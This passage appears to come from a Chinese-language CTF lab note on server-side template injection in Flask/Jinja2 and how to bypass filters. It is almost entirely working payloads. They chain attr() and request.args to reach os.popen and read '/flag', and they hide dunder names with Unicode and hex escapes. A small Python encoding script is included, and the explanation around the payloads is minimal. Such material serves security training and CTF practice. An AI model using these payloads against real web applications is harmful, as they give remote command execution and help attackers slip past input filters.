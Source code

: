 ```
http://192.168.204.149:18080/flasklab/level/6?class=__class__&base=__base__&sub=__subclasses__&geti=__getitem__&init=__init__&globals=__globals__
```

```
code={{()|attr(request.args.class)|attr(request.args.base)|attr(request.args.sub)()|attr(request.args.geti)(117)|attr(request.args.init)|attr(request.args.globals)|attr(request.args.geti)('popen')('cat /flag')|attr('read')()}}
```

## 2.编码绕过

### 1.Unicode编码

 Unicode编码的python脚本如下：

```
class_name = "cat /flag"

unicode_class_name = ''.join(['\\u{:04x}'.format(ord(char)) for char in class_name])

print(unicode_class_name)
```

payload示例：

```
url={%print(()|attr(%22\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f%22))%}
```

```
（Unicode编码，这条payload等效于{{“”.__class__}}） 
```



### 2.utf-16

```
{{().__class__.__base__.__subclasses__()[199].__init__.__globals__}}
```



```
{{()|attr("\u005F\u005F\u0063\u006C\u0061\u0073\u0073\u005F\u005F")|attr("\u005F\u005F\u0062\u0061\u0073\u0065\u005F\u005F")|attr("\u005F\u005F\u0073\u0075\u0062\u0063\u006C\u0061\u0073\u0073\u0065\u0073\u005F\u005F")()|attr("\u005F\u005F\u0067\u0065\u0074\u0069\u0074\u0065\u006D\u005F\u005F")(199)|attr("\u005F\u005F\u0069\u006E\u0069\u0074\u005F\u005F")|attr("\u005F\u005F\u0067\u006C\u006F\u0062\u0061\u006C\u0073\u005F\u005F")}}
```

### 十六进制编码

```
{{()[“\x5f\x5fclass\x5f\x5f”][“\x5f\x5finit\x5f\x5f”][“\x5f\x5fglobals\x5f\x5f”][“os”].popen(“ls”).read()}}
```
